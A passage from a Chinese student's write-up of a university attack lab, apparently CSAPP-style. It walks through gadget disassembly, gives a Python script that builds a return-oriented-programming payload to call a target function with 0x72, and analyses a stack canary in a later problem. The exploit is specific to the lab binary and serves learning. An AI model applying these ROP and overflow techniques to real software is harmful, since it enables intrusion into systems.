  40131b:	90                   	nop
  40131c:	5d                   	pop    %rbp
  40131d:	c3                   	ret    
```

​	`call_rax`函数：调用存储在 `rax` 中的函数地址。

```asm
000000000040131e <jmp_x>:
  40131e:	f3 0f 1e fa          	endbr64 
  401322:	55                   	push   %rbp
  401323:	48 89 e5             	mov    %rsp,%rbp
  401326:	48 89 7d f8          	mov    %rdi,-0x8(%rbp)
  40132a:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  40132e:	ff e0                	jmp    *%rax
  401330:	c3                   	ret    
  401331:	90                   	nop
  401332:	5d                   	pop    %rbp
  401333:	c3                   	ret    
```

​	`jmp_x`函数：跳转到存储在 `rax` 中的地址。

```asm
0000000000401334 <jmp_xs>:
  401334:	f3 0f 1e fa          	endbr64 
  401338:	55                   	push   %rbp
  401339:	48 89 e5             	mov    %rsp,%rbp
  40133c:	48 8b 05 cd 21 00 00 	mov    0x21cd(%rip),%rax        # 403510 <saved_rsp>
  401343:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
  401347:	48 83 45 f8 10       	addq   $0x10,-0x8(%rbp)
  40134c:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
  401350:	ff e0                	jmp    *%rax
  401352:	90                   	nop
  401353:	5d                   	pop    %rbp
  401354:	c3                   	ret   
```

​	`jmp_xs`函数：加载保存的 `rsp`，调整偏移后跳转到新的地址。

​	要输出`114`，也就是要将`114`传入`func1`函数中并运行，可以拆分为几步：使用 `mov_rax` gadget，将 `rdi` 设置为 `0x72`；使用 `mov_rdi` gadget，将 `rax` 的值（即 `0x72`）赋值给 `rdi`；使用 `mov_rax` gadget，将 `rdi` 设置为 `func1` 的地址；使用 `call_rax` gadget，调用存储在 `rax` 中的 `func1` 函数地址。
​	于是，我们可以构建如下的ROP链：

```python
padding = b'A' * 40  # 填充数据的大小，确保覆盖栈上的数据直到返回地址

 
mov_rax = b"\xf1\x12\x40\x00\x00\x00\x00\x00"        # 调用 mov_rax gadget，将 rdi 设置为 0x72
cookie = b"\x72\x00\x00\x00\x00\x00\x00\x00"         # mov_rax 的参数，值 0x72
mov_rdi = b"\xda\x12\x40\x00\x00\x00\x00\x00"        # 调用 mov_rdi gadget，将 rax (0x72) 赋值给 rdi
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"  # mov_rax 的参数，func1 的地址
call_rax = b"\x08\x13\x40\x00\x00\x00\x00\x00"       # 调用 call_rax gadget，调用 func1(rdi=0x72)


# 构造ROP链
payload = padding  + mov_rax + cookie + mov_rdi + func1_address + call_rax

# 写入payload到文件 
with open("ans3.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans3.txt")
```

​	编译运行可以在gdb中得到输出，~~大功告成！~~

​	告不了一点。

​	在直接运行后，得到的输出是这样的：



​	明明成功打印了信息，为什么还是出现`“Segmentation fault (core dumped)"`呢？

​	这里我找到了PKU一位学长写的blog，他里面也提到了这个问题。而他发现原因是**“没有完成栈指针的16字节对齐”**，我猜测我也是这个原因。但先不管了，等到寒假再看吧，先做到这里。

## problem4

​	第一步还是一样的，进行反汇编以得到汇编代码：

```bash
objdump -d problem4 > problem4.s
```

​	已知程序受**Canary保护**，找起来就比较简单了。

​	首先是在`func`函数中，金丝雀值的保存。

```asm
1328:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
132f:	00 00
1331:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
```

​	这一段代码从`%fs:0x28`位置加载canary值到`%rax`寄存器，并将其存储到栈帧中的`-0x8(%rbp)`位置。这表示当前函数保存了栈的canary值（保护值）。

​	然后是函数中对金丝雀值的检查。

```asm
1347:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
134b:	64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax
1352:	00 00
1354:	74 05                	je     135b <func1+0x3f>
```

​	在函数结束时，`%fs:0x28`中存储的canary值与先前保存的值进行比较。如果两个值不同，则说明栈溢出或修改了canary值。`sub`指令将canary值与存储的值做差，如果相等（即没有溢出），跳过后续检查。

​	如果canary值被篡改（栈溢出或其他非法操作），则会跳转到`1356`，调用异常处理代码：

```asm
1356:	e8 75 fd ff ff       	call   10d0 <_init+0xd0>
```

​	确定了之后我们运行代码，得到一下结果：



​	这里第一点是这个我到底要给助教哥多少原石呢？要求的数字就在`func`函数里面。

```asm
000000000000135d <func>:
    135d:	f3 0f 1e fa          	endbr64 
    1361:	55                   	push   %rbp
    1362:	48 89 e5             	mov    %rsp,%rbp
    1365:	48 83 ec 30          	sub    $0x30,%rsp
    ……………………
    13d7:	72 f0                	jb     13c9 <func+0x6c>
    13d9:	83 7d e8 01          	cmpl   $0x1,-0x18(%rbp)
    13dd:	75 06                	jne    13e5 <func+0x88>
    13df:	83 7d f4 ff          	cmpl   $0xffffffff,-0xc(%rbp)
    13e3:	74 11                	je     13f6 <func+0x99>
    13e5:	48 8d 05 6b 0c 00 00 	lea    0xc6b(%rip),%rax        # 2057 <_IO_stdin_used+0x57>
    13ec:	48 89 c7             	mov    %rax,%rdi
    13ef:	e8 bc fc ff ff       	call   10b0 <_init+0xb0>
    13f4:	eb 14                	jmp    140a <func+0xad>
    13f6:	b8 00 00 00 00       	mov    $0x0,%eax
    13fb:	e8 1c ff ff ff       	call   131c <func1>
    ……………………
    1419:	e8 b2 fc ff ff       	call   10d0 <_init+0xd0>
    141e:	c9                   	leave  
    141f:	c3                   	ret    
```

​	在`0x13df`上是有关地址跳转的比较函数，而分析一下`func1`函数做的就是当给的原石不够的时候，循环输出`“your money is not enough!"`,所以我们给的原石数量应当为`0xffffffff`。有一点没大明白的是，为啥输入十进制的`4294967295`和二进制的`1111 1111 1111 1111 1111 1111 1111 1111`都没事，输入十六进制的`ffffffff`或`0xffffffff`就不行。



​	还得用`Ctrl+C`来强制中断程序。可能是输入流不认字符（?）

​	成功解决！

​	至此，我们踩完了所有的坑，成功解决了`baby_attack_lab`。

## 参考资料

​	[**更适合北大宝宝体质的 Attack Lab 踩坑记**](https://github.com/zhuozhiyongde/Introduction-to-Computer-System-2023Fall-PKU/tree/main/03-Attack-Lab#%E6%9B%B4%E9%80%82%E5%90%88%E5%8C%97%E5%A4%A7%E5%AE%9D%E5%AE%9D%E4%BD%93%E8%B4%A8%E7%9A%84-attack-lab-%E8%B8%A9%E5%9D%91%E8%AE%B0) 

​	[**【读厚 CSAPP】 III Attack Lab**](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)

​	[**CTF Wiki 系列介绍**](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stack-intro/)
